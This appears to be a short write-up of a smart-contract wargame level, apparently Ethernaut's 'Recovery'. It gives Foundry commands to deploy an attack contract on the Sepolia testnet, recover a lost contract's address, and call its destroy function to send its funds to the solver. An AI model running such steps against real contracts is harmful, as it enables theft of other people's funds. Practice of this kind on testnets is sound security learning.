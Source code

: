 # Recovery Solution

Deploy:

```bash
forge create RecoveryHack --broadcast --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

Run to retrieve the `lostContractAddress`:

```bash
cast call <recoveryHackAddress> "attack(address)" <instanceAddress> --rpc-url $SEPOLIA_RPC_URL
# 0x0000000000000000000000001e08b6856bdf73e26747b197f2e5b1bef63af7c8
cast parse-bytes32-address <lostContractAddress>
# cast parse-bytes32-address 0x0000000000000000000000001e08b6856bdf73e26747b197f2e5b1bef63af7c8
# 0x1e08B6856BdF73e26747B197f2e5b1bEF63AF7c8
```

Run:

```bash
cast send <lostContractAddress> "destroy(address)" sepoliaPublicKey --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
